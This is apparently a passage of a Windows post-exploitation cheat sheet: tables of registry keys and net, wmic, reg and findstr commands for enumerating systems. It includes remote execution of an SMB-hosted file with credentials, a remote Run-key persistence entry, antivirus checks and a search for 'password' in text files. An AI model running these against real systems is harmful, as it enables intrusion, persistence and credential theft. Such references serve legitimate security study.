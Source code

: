 | Audit policy enumeration (Requires SYSTEM privileges) | `HKLM\Security\Policy\PolAdTev` |
| Kernel/user services | `HKLM\SYSTEM\CurrentControlSet\Services` |
| Installed software for all users | `HKLM\Software` |
| Installed software for current user | `HKCU\Software` |
| Recent WordPad documents | `HKCU\Software\Microsoft\Windows\CurrentVersion\Applets\Wordpad\Recent File List` |
| Recent typed entries in the Run dialog box | `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` |
| Typed URLs | `HKCU\Software\Microsoft\Internet Explorer\TypedURLs` |
| Last registry key accessed via regedit.exe | `HKCU\Software\Microsoft\Windows\CurrentVersion\Applets\Regedit /v LastKey` |

---

### Windows Remote System Enumeration
| Description | REMOTE SYSTEM ENUMERATION |
|--------------------------------------------------|----------------------------------|
| Display sessions for remote system | `net session \\<IP_ADDRESS>` |
| Display logged in user on remote machine | `wmic /node: <IP_ADDRESS> computersystem get username` |
| Execute file hosted over SMB on remote system with specified credentials | `wmic /node: <IP_ADDRESS> /user:<DOMAIN>\<USERNAME> /password:<PASSWORD> process call create "\\<IP_ADDRESS>\<SHARE_FOLDER>\<FILE_PATH>"` |
| Display process listing every second for remote machine | `wmic /node: <IP_ADDRESS> process list brief /every:1` |
| Query remote registry | `reg query \\<IP_ADDRESS>\<REG_HIVE>\<REG_KEY>/v <REG_VALUE>` |
| Display process listing on remote system | `tasklist /S <IP_ADDRESS> /v` |
| Display system information for remote system | `systeminfo /S <IP_ADDRESS> /U <DOMAIN>\<USERNAME> /P <PASSWORD>` |
| Display shares of remote computer | `net view \<IP_ADDRESS> /all` |
| Connect to remote filesystem with specified user account | `net use * \\<IP_ADDRESS>\<SHARE FOLDER> /user:<DOMAIN>\<USERNAME> <PASSWORD>` |
| Add registry key to remote system | `REG ADD "\\<IP_ADDRESS>\HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "My App" /t REG_SZ /F /D "<FILE_PATH>"` |
| Copy remote folder | `xcopy /s \\<IP_ADDRESS>\<SHARE_FOLDER> <LOCAL_DIR>` |
| Display system uptime - look for creation date of pagefile.sys. This is the last time the system started | `dir \\<IP_ADDRESS>\c$` |
| Display processes (look for AV, logged on users, programs of interest, etc.) | `tasklist /v /s <IP_ADDRESS>` |
| Display system architecture - Presence of "Program Files (x86)" means 64-bit system | `dir \\<IP_ADDRESS>\c$` |

## Windows Data Mining
## FILE INFO & SEARCHING
| Description | Command |
|-------------|---------|
| Search for all PDFs | `dir /a /s /b C:\*.pdf*` |
| Search current and subdirectories for .txt files for case insensitive string "password" | `findstr /SI password *.txt` |
| Display file contents | `type <FILE_PATH>` |
| Display all lines in a file that match case insensitive <STRING> | `find /I "<STRING_TO_SEARCH>" <FILE_PATH>` |
| Display line count for a file | `type <FILE_PATH> | find /c /v ""` |
| Enumerate recently opened files | `dir C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Recent`<br><br>#Then run the following command on the .lnk:<br>`type <FILE_PATH>`<br><br>#Look for full file path in output |
